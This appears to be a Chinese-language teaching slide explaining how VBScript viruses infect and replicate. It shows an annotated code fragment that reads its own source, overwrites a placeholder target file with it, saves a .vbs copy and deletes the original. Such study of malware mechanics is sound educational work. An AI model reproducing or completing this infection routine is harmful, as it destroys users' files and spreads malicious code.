

# VBS脚本病毒如何感染复制
set fso=createobject("scripting.filesystemobject")  '创建一个文件系统对象

set self=fso.opentextfile(wscript.scriptfullname,1)    '读打开当前文件(即病毒本身)

vbscopy=self.readall      '读取病毒全部代码到字符串变量vbscopy……

set ap=fso.opentextfile(目标文件.path,2,true)      '打开目标文件，准备写入病毒代码

ap.write vbscopy                 '将病毒代码覆盖目标文件

ap.close

set cop=fso.getfile(目标文件.path)            '得到目标文件路径

cop.copy(目标文件.path & ".vbs")              '创建另外一个病毒文件(以.vbs为后缀)

目标文件.delete(true)                         '删除目标文件